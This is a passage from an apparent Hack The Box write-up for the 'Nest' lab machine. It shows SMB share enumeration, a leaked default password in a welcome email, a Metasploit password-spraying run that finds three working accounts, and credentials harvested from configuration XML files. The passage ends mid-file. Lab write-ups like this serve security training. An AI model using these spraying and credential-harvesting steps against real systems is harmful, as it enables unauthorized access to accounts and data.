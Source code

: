     smb: \Shared\Maintenance\> get "Maintenance Alerts.txt"
      getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Maintenance Alerts.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)


    root@nidus:/opt/htb/machines/nest# cat MaintenanceAlerts.txt
      There is currently no scheduled maintenance work

    root@nidus:/opt/htb/machines/nest# cat WelcomeEmail.txt
      We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

      You will find your home folder in the following location:
      \\HTB-NEST\Users\<USERNAME>

      If you have any issues accessing specific services or workstations, please inform the
      IT department and use the credentials below until all systems have been set up for you.

      Username: TempUser
      Password: welcome2019


      Thank you
      HR


3. We've found a list of 5 users, and what seems to be a default password. Lets see if any account hasn't changed the password yet.

    msf5 auxiliary(scanner/smb/smb_login) > run
      [*] 10.10.10.178:445      - 10.10.10.178:445 - Starting SMB login bruteforce
      [-] 10.10.10.178:445      - 10.10.10.178:445 - Failed: '.\Administrator:welcome2019',
      [-] 10.10.10.178:445      - 10.10.10.178:445 - Failed: '.\C.Smith:welcome2019',
      [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\L.Frost:welcome2019'
      [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\R.Thompson:welcome2019'
      [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\TempUser:welcome2019'
      [*] nest.htb:445          - Scanned 1 of 1 hosts (100% complete)
      [*] Auxiliary module execution completed

    We found three sets of working creds! Lets enumerate smb again using all the found accounts.

    L.Frost:welcome2019 - finds nothing interesting
    R.Thompson:welcome2019 - finds nothing interesting
    TempUser:welcome2019 - has access to all folders, and within IT\Configs we find a few interesting XML's.

    RUScanner - We find a new set of creds. The password looks base64 encoded however decoding it gives us nothing of use. c.smith:fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=
    NotepadPlusPlus - We find a new user from IT - Carl.
    Atlas - A few new names and possible users, Deanna Meyer (D.Meyer), Jolie Lenehan (J.Lenehan), Robert O'Hara (R.Ohara)

    root@nidus:/opt/htb/machines/nest/RuScanner# cat RU_config.xml
      <?xml version="1.0"?>
      <ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
      <Port>389</Port>
      <Username>c.smith</Username>
      <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
